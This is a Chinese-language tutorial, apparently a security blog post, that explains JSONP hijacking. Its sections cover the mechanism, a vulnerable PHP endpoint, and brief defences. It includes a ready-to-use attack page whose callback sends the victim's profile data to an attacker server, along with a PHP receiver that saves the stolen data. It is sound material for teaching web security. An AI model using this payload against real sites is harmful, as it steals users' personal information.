

## 0x00 Jsonp概述
Jsonp 全程是 JSON with Padding ，是json的一种“使用模式”，可以让网站从别的域名（网站）处获取资料，即跨域读取数据。
为什么我们从不同的域（网站）访问数据需要一个特殊的技术（Jsonp）呢？这是因为同源策略，只有当两个URL的协议、域名、端口完全相同时，才会被认为是“同源”。现在所有支持JS的浏览器都会使用同源策略。  
### 1.callback是客户端发送的一个参数
利用关键点在于callback函数，callback是客户端发送给服务器的一个参数，向服务端表明客户端希望如何处理返回的数据。
```arduino
https://example.com/data?callback=myCallback
```

### 2.告诉服务器返回的数据应该被什么函数调用
具体来说，JSONP 不是直接返回 JSON 数据，而是将数据作为 JavaScript 代码的一部分返回，服务器会根据 callback 参数，将响应数据作为参数传递给该回调函数。例如，如果 callback=myCallback，服务器返回的内容可能是：  
```javascript
myCallback({"name": "John", "age": 30});
```
这样，浏览器在接收到这段代码时，会执行 myCallback 函数并将返回的数据（这里是一个 JSON 对象）传递给这个函数。  

更精准的表达是：callback 参数是客户端发送给服务器的一个参数，指定了服务器返回的数据应该作为参数传递给哪个 JavaScript 函数进行处理。  
Jsonp漏洞原理：攻击者模拟用户向有漏洞的服务器发送 Jsonp请求，然后就可以获取到用户的某些敏感信息，再将这些信息发送到攻击者可控的服务器。

## 0x01 Jsonp原理

JSONP 的最基本的原理是：动态添加一个\< script \>标签，而 script 标签的 src 属性是没有跨域限制的。
考虑这样一种情况，存在两个网站 A 和 B，用户在网站 B 上注册并且填写了自己的用户名，手机号，身份证号等信息，并且网站 B 存在一个 jsonp 接口，用户在访问网站 B 的时候。这个 jsonp 接口会返回用户的个人信息，并在网站 B 的 html 页面上进行显示。如果网站 B 对此 jsonp 接口的来源验证存在漏洞，那么当用户访问网站 A 时，网站 A 便可以利用此漏洞进行 JSONP 劫持来获取用户的信息。

  
对上图流程的解释如下：  
1. 请求URL：用户通过浏览器向A站发送了一个包含跨域请求的URL，这个URL包含了用于JSONP的callback参数；
2. 返回包含回调函数的JS代码：A站返回了包含用户提供的callback函数的JavaScript代码。这个代码会在用户的浏览器上执行，并通常包含一些与用户相关的信息或操作；
3. 将回调函数作为参数请求B站：浏览器在接收到从A站返回的代码后，发送一个请求到B站，其中包含了A站返回的用户信息和通过JSONP设置的回调函数参数；
4. 返回包含用户信息的JSON数据：B站会响应这个请求，返回用户的JSON数据，同时这个数据会被传递给之前的回调函数；
5. 上传用户信息数据：最终，回调函数会将获取到的用户信息上传到攻击者指定的服务器，导致用户敏感信息被泄露；

## 0x02 Jsonp漏洞攻击方法
攻击方法与 csrf 类似，都是需要用户登录帐号，身份认证还没有被消除的情况下访问攻击者精心设计好的的页面。就会获取 json 数据，把 json 数据发送给攻击者。寻找敏感 json 数据 api 接口，构造恶意代码发送给用户，用户访问有恶意代码的页面，数据会被劫持发送到远程服务器。

## 0x03 Jsonp漏洞攻击实战
场景：  
服务器 B 上存在一个 user.php 页面。
```php
header('Content-type:application/json');
$callback = $_GET['callback'];
print $callback.'({"id":"1","name":"moonsec","email":"a@email.com"});';
```
接收一个callback的参数，然后以json格式返回用户信息。
服务器 A 精心构造了一个利用代码，发送给用户点击。
```JavaScript
function jsonp2(data) {
    alert(JSON.stringify(data));
}
<script src="http://www.exp01.com/user.php?callback=jsonp2"><\script>
```
用户浏览器访问 A网站和B网站，其实 A B 是非同源的，但是A利用了jsonp特性，在 script标签中添加src属性，就能摆脱同源策略的限制，来访问 B 网站。又利用了callback回调函数，把网站B相应的敏感信息传入了 jsonp2 函数中，被alert显示。

## 0x04 构造jsonp攻击代码
远程文件写入代码：
```php
<?php
if($_GET['file']){
file_put_contents('json.txt',$_GET['file']);
}
?>

```
jsonp劫持代码：

```html
<!DOCTYPE html>
<html>
<head>
<meta charset="UTF-8">
<title></title>
<script src="http://apps.bdimg.com/libs/jquery/1.10.2/jquery.min.js"></script>
<script>
function test(data){
    var xmlhttp = new XMLHttpRequest();
    var url = "http://192.168.0.121/1.php?file=" + JSON.stringify(data);
    xmlhttp.open("GET",url,true);
    xmlhttp.send();
}
</script>
<script src="http://www.exp01.com/user.php?callback=test"></script>
</head>
<body>
</body>
</html>
```
当受害者登录网站后，访问这个页面，会自动访问 http://www.exp01.com/ 下的 user.php 页面，然后利用callback回调函数把敏感信息发给test函数，test立即执行，把敏感信息也就是data，发送给目标服务器上，目标服务器接收到敏感信息后保存为json.txt。  
以上即为jsonp漏洞的利用payload，我们在使用时注意修改 script 标签中的 src属性，改成存在漏洞服务器接口地址，然后test函数中 URL修改为自己发起攻击服务器的IP地址。

## 0x05 Jsonp防御方案
json 正确的 http 头输出
1. 尽量避免跨域的数据传输；
2. 对于同域的数据传输使用 xmlhttpRequest 或 fetch 的方式作为数据获取的方式，这种方式在跨域时会受到浏览器同源策略的保护；
3. 如果是跨域的数据传输，要对敏感数据获取做好权限认证，防止未授权访问；
